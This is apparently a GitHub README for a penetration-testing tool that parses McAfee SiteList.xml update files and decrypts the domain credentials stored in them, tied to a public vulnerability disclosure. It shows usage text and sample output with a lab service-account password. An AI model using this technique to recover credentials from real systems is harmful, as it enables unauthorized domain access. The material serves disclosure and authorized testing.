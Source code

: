 McAfee SiteList Tool
====================
This tool will extract useful information from the McAfee update SiteList file and decrypt the associated password for each entry.

For more information about this vulnerability see [McAfee SiteList.XML Domain Credentials Disclosure](http://warchest.fusionx.com/mcafee-sitelist-xml-domain-credentials-disclosure/)

Usage
-----

    usage: sitelist.py [options]
    
    McAfee SiteList Decryptor v1.0 - david.rude@fusionx.com
    
    optional arguments:
      -h, --help   show this help message and exit
      -f file      sitelist.xml file to decrypt
      -p password  base64 encoded password

Example usage:

    $ python sitelist.py -f SiteList.xml
    
    HttpSite
    =============================================
    Server update.nai.com:80
    RelativePath Products/CommonUpdater
    Username (empty)
    Password (empty)
    =============================================
    
    
    UNCSite
    =============================================
    Server server
    RelativePath (empty)
    Share TestShare
    Domain TestDomain
    Username McSvcAccount
    Password Password1
    =============================================
    
    
    SpipeSite
    =============================================
    Server server.pwnag3.local:80
    ServerIP 192.168.209.10:80
    RelativePath Software
    Username (empty)
    Password (empty)
    =============================================
    
